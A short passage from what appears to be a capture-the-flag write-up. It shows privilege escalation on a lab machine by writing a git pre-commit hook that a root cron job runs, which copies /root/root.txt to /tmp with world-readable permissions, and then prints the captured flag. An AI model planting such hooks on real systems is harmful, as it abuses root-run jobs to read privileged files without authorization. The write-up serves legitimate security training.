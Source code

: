 ``` sh
dev01@opensource:~$ vi /home/dev01/.git/hooks/pre-commit
#!/bin/bash
cp /root/root.txt /tmp/tmp.txt
chmod 777 /tmp/tmp.txt
```

<p>Watch using the pspy binary for the next cronjob of this to run, and then check /tmp/tmp.txt to find the flag</p>

``` sh
dev01@opensource:/tmp$ cat /tmp/tmp.txt 
1e98fe0be2c9197fa6c1fcb965f82b5a
dev01@opensource:/tmp$ 
```

## Root owned!

